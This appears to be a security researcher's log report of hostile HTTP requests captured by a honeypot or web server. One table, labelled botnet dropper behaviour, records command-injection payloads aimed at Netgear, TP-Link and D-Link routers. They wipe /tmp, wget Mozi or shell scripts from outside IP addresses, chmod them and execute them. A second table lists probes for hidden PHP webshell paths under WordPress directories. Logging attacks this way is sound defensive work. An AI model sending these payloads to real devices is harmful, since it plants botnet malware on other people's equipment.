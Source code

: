 ## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                   |
|:---------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 111.38.123.165 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://111.38.123.165:35888/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                             |
| 45.95.147.209  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+sh%3B+wget+http%3A%2F%2F176.65.148.234%2Fsh%3B+chmod+777+sh%3B+.%2Fsh+tplink%3B+rm+-rf+sh%60) HTTP/1.1 |
| 122.97.212.30  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                     |
| 117.213.247.87 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                     |
| 176.65.148.10  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=cd+/tmp;rm+-rf+*;wget+http://213.209.143.44/netgear.sh;chmod+777+netgear.sh;sh+netgear.sh;&curpath=/&currentsetting.htm=1; HTTP/1.1                  |
| 141.98.11.128  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+r%3B+wget+http%3A%2F%2F176.65.148.234%2Fsh%3B+chmod+777+sh%3B+.%2Fsh+tplink%3B+rm+-rf+sh%60) HTTP/1.1  |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|      |   number_of_occurence | request                                                                                           |
|-----:|----------------------:|:--------------------------------------------------------------------------------------------------|
|  153 |                     2 | GET /wp-includes/ID3/ HTTP/1.1                                                                    |
|  154 |                     2 | GET /as.php HTTP/1.1                                                                              |
|  169 |                     2 | GET /defaults.php HTTP/1.1                                                                        |
|  172 |                     2 | GET /file.php HTTP/1.1                                                                            |
|  204 |                     2 | GET /wp-content/plugins/tunnelforms/lib.php HTTP/1.1                                              |
|  205 |                     2 | GET /worksec.php HTTP/1.1                                                                         |
|  211 |                     2 | GET /wp-admin/maint/ HTTP/1.1                                                                     |
|  213 |                     2 | GET /wp-content/plugins/core-plugin/include.php HTTP/1.1                                          |
|  216 |                     1 | GET /wp-includes/pomo/priv.php HTTP/1.1                                                           |
|  217 |                     1 | GET /wp-includes/PHPMailer/priv.php HTTP/1.1                                                      |
|  218 |                     1 | GET /wp-includes/sitemaps/providers/priv.php HTTP/1.1                                             |
|  219 |                     1 | GET /wp-includes/widgets/priv.php HTTP/1.1                                                        |
|  220 |                     1 | GET /wp-includes/Text/Diff/Engine/priv.php HTTP/1.1                                               |
|  221 |                     1 | GET /wp-includes/fonts/priv.php HTTP/1.1                                                          |
|  222 |                     1 | GET /wp-includes/images/crystal/priv.php HTTP/1.1                                                 |
|  223 |                     1 | GET /wp-content/uploads/configure.php HTTP/1.1                                                    |
|  224 |                     1 | GET /.well-known/file.php HTTP/1.1                                                                |
|  225 |                     1 | GET /wp-admin/maint/thems.php HTTP/1.1                                                            |
|  226 |                     1 | GET /wp-includes/cof.php HTTP/1.1                                                                 |
|  227 |                     1 | GET /wp-admin/includes/translation.php HTTP/1.1                                                   |
|  228 |                     1 | GET /.well-known/setting.php HTTP/1.1                                                             |
|  229 |                     1 | GET /files/setting.php HTTP/1.1                                                                   |
|  230 |                     1 | GET /wp-admin/maint/admin-ajax.php HTTP/1.1                                                       |
|  231 |                     1 | GET /wp-admin/maint/wp-login.php HTTP/1.1                                                         |